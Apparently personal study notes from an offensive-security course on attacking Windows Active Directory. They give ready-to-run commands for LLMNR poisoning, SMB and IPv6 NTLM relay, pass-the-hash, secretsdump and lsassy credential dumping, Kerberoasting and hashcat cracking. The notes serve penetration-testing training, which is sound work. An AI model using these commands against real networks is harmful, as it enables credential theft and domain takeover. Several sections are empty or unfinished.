

# Active Directory
- The goal of active directory attacks is to compromise the domain. Start by gaining access to a local machine or account. Then pivot with different attack vectors to get to the domain.

## Active Directory: Initial Attack

**Process**
1. Start by running responder or mitm6.
2. Run scans to generate traffic.
3. If scans are taking too long, look for websites in scope (http_verison).
4. Look for default credentials on web logins or vulnerabilities.
5. Try harder.

### LLMNR Poisoning
- Link Local Multicast Name Resolution (LLMNR)
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS.
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.
- With a MitM, you can observe the broadcast for people looking to connect to a share and crack the hash offline.

> **Note**
> ***
> You must be on the same network to capture this traffic.

1. To run the process:
````bash
sudo responder -I {interface} -dwP
````


2. Add hash to a .txt file.

3. Crack the hashes:
 ````bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
 ````
> **Tip**
> ***
> Its better to run hashcat on bare metal.
> To find what code to use grep the code, for example
> `hashcat --help | grep NTLM`

### SMB Relay
- Instead of cracking hashes we can relay those hashes to specific machines and potentially gain access.
- SMB signing must be disabled or not enforced.
    - You'll see this as an option with your NMAP script.

1. To start you need to adjust your responder.conf file to allow for this attack.
````bash
sudo vim /etc/responder/Responder.conf
````
- Set SMB and HTTP to off on lines 5 and 12 respectively.


2. Run impacket. This will start similar to responder.
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami" 
````
OR to gain an interactive shell run:
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
````

> **Note**
> ***
> I previously created a file with the IP addresses of my targets and ran the command from that same folder.


### IPv6 Attack
- This works off most computers using IPv4, but having IPv6 turned on. With no legitamate server for DNS on IPv6 we spoof that DNS to steal NTLM hashes then pass that to the DC.
- Only run this in small sprints, it can disable a network.

1. Setup ntlmrelayx.
````bash
impacket-ntlmrelayx -6 -t ldaps://{ip of DC} -wh fakewpad.{domain.local} -l {lootme}
````
> **Note**
> ***
> -6 is for ipv6\
> -t is for target\
> -wh Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied. The Web Proxy Auto-Discovery (WPAD) Protocol is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.\
> -l Loot directory in which gathered loot such as SAM dumps will be stored. This is the fake name you want to create to find later

> **Warning**
> If you have issues, try reinstalling impacket using pimpmykali

2. Run mitm6 (this needs to be installed first)
````bash
sudo mitm6 -i eth0 -d {domain.local}
````

> **Note**
> ***
> By default mitm6 used my production interface so make sure you change the interface to the one that the DC is on.

3. Review your lootme file in the directory you ran the attack


### Passback Attack


### Impacket

- Impacket is a suite of tools that can help you get hashes and pass hashes. Read the full manual for more information
- With the new update, commands start with `impacket-{command}`. To see a full list type `impacket-[TAB][TAB]`

#### Pass the Hash
- Pash the hash with `impacket-psexec [username]@[ip] -hashes [hash]`

## Active Directory: Post-Host Compromise
- This stage starts after you have an account particular those that are only regular users.

**Process**
1. Review your lootme file or manually run the command `sudo ldapdomaindump ldaps://{IP} -u '{domain}\{user} -p {password}` to get that same information.

2. Enumerate the domain

3. Leverage tools to attack the domain controller.

### Bloudhound-Plumhound
- `sudo neo4j console`
- Pro tip, if you forgot your password just go to `/usr/share/neo4j/conf` and edit the neo4j.conf file. Uncomment the section .
- FYI: Too hard to figure out how to get bloodhound working on Kali.
- JK I did everything I could, and I couldn't get bloodhound or neo4j.
- JK JK, followed the instructions to 
- JK JK JK, looks like I still can't follow along with the course because the build of bloodhound appears depreciated and the command to pull the data doesn't work.

### Pass the Password/Hash
- The strategy for this attack is to get access to one account and pass it around the domain.

> **WARNING**
> I spent a lot of time trying to figure out how to get crackmapexec to work, at it too appears deprecated. However there is a new project called netexec. I replace all the commands from the course with either `NetExec`, `netexec`, or `nxc` and access the databased with `nxcdb`.


#### Pass the password
````bash
nxc smb 192.168.110.0/24 -u {user whose password you have} -d {domain}.local -p {password}
````
#### Pass the hash (only works with NTLMv1)
````bash
nxc smb 192.168.110.0/24 -u {administrator} -H {Hash value should look like this aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33} --local-auth
````
> Optionally, you can add `--sam` and `--shares` to enumerate more of the machine. Using `-M lsassy` will pull anything stored in memory. Use `crackmapexec smb -L` to list all available modules. Review the man page for more tools.

#### Get hashes with Secretsdump
- Used to get hashes if you have a regular user password.
````bash
impacket-secretsdump {domain}.local/{username}:{Password}@{IP of user machine}
````
> You can also add `-hashes {hash}` to the impacket-secretsdump command if you don't have a cracked hash.

- Once you get hashes, use this against all computers in the domain. Re-spray the network until you find vertical access.
- Then crack the hashes with hashcat (Process listed above).

## Active Directory: DC Attack

### Kerberoasting
- Goal of Kerberoasting: Get Ticket Granting Service (TGS) and decrypt server's account hash.
- We can use a compromised account to request the TGS to roast the DC.

1. Use `impacket-GetUserSPNs` to dump service hash.
````bash
impacket-GetUserSPNs {domain}.local/{username}:{password} -dc-ip {DC IP} -request
````
2. Copy the hash dumped for the service which should look like a long string: `$krb5tgs$23$*{Service}${domain}.LOCAL${domain}.local/{Service}*$ae9f7...342c49

3. Crack that hash to give you an account with admin rights to the DC.
````bash
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
````


Credit: TCMAcademy

### Token Impersonation